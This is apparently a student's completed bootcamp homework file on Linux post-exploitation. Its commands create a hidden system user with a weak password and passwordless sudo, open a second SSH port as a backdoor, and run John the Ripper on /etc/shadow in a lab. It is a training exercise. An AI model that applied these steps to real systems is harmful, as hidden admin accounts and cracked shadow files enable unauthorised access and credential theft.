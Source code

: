 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd -M -u 790 sysd`

2. Give your secret user a password: 
    - `sudo usermod --password passw0rd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 790 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 790 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
    Added the following to the file: `sysd ALL=(ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    sudo su sysd
    sudo apt-get update
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo vi /etc/ssh/sshd_config

    sudo ufw allow 2222 #config the system firewall to allow access through port 2222

    ```
    Note: Added "Port 2222" along with uncommetted "Port 22" in sshd_config
    Added : "AllowUsers sysd sysadmin"

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

